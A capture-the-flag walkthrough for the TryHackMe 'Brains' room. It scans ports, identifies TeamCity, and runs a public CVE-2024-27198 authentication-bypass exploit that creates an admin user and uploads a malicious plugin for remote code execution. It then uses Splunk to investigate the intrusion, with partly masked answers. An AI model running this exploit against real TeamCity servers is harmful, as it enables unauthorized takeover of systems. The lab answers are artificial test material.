

# 🧠 Brains

* Solving [Brains](https://tryhackme.com/room/brains)

## 🔎 Discovery

1. First of all, Lets Find Open Ports and see what is going on Here!? 🎯
```sh
nmap -p- -sV $TARGET

Nmap scan report for 10.10.186.71
Host is up (0.0059s latency).
Not shown: 65529 closed ports
PORT      STATE SERVICE         VERSION
22/tcp    open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http            Apache httpd 2.4.41 ((Ubuntu))
8000/tcp  open  http            Splunkd httpd
8089/tcp  open  ssl/http        Splunkd httpd (free license; remote login disabled)
8191/tcp  open  limnerpressure?
50000/tcp open  ibm-db2?
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port8191-TCP:V=7.80%I=7%D=10/23%Time=68FA167F%P=x86_64-pc-linux-gnu%r(G
SF:etRequest,A9,"HTTP/1\.0\x20200\x20OK\r\nConnection:\x20close\r\nContent
...
MAC Address: 02:8C:23:28:1A:5D (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

2. Lets look deeper into Ports One By One 🧩
```
22/tcp         OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp         Apache httpd 2.4.41 ((Ubuntu))
8000/tcp       Splunkd Version: 9.2.2 (Build d76edf6f0a15)
8089/tcp       Splunkd httpd (free license; remote login disabled)
8191/tcp       MongoDB (native driver port)
50000/tcp      Login To TeamCity Version 2023.11.3 (build 147512)
```

3. If we cleverly look at list above, There is only one reason to have TeamCity in it! TeamCity is there for Exploitation! 😈


## Breaking In 🔨

4. I did research for TeamCity exploits and As I guessed, There is a Good Authentication Bypass Exploit out there:
[CVE-2024-27198-RCE](https://github.com/W01fh4cker/CVE-2024-27198-RCE/tree/main) 🧨

5. Now, We Just need to Download and Run the Exploit: 💻
```sh
# Clone Git Repo
git clone https://github.com/W01fh4cker/CVE-2024-27198-RCE
# CD to Directory
cd CVE-2024-27198-RCE

# Install Dependencies
pip3 install requests urllib3 faker

# Lets Run Username: r00t & Password: r00t
python3 CVE-2024-27198-RCE.py -u r00t -p r00t -t "http://$TARGET:50000"

# Press `y` in the proccess!
```


6. Running Exploit above creates a new **Administrative** User on Target Which we can login, And Uploads an **Evil Plugin** which gives a nice **RCE** on System. 🥳
```
Username: r00t
Password: r00t
```


7. Now We Can Read the Flag 1 ⛳️!
```sh
cat /home/ubuntu/flag.txt
# THM{faa******************7594}
```

## 🕵️ Investigation

8. Turn off machine and Start the Machine on the Investigation chapter, wait around 5-6 mins for **Splunk** to boot up. 🍳

9. Visit splunk on port **8000** with credentials included in the task itself: `http://$TARGET:8000` 🗝️
```
U: splunk
P: analyst123
```


10. Move to **Search and Reporting Application** and start wondering around. 🔍


11. Set time window to **All Time** and search for `"new user"`: 🧟
```
What is the name of the backdoor user which was created on the server after exploitation?
e******r
```



12. In the **Time Frame** of incident and couple of days later, search for `"installed"` keyword to find the package. 📦
```
What is the name of the malicious-looking package installed on the server?
d***********r
```


13. In the same time frame, search for `"plugin"` to get list of installed Plugins on **TeamCity**. 📦
```
What is the name of the plugin installed on the server after successful exploitation?
A*******.***p
```


## 📚 References

- https://www.vicarius.io/vsociety/posts/teamcity-auth-bypass-to-rce-cve-2024-27198-and-cve-2024-27199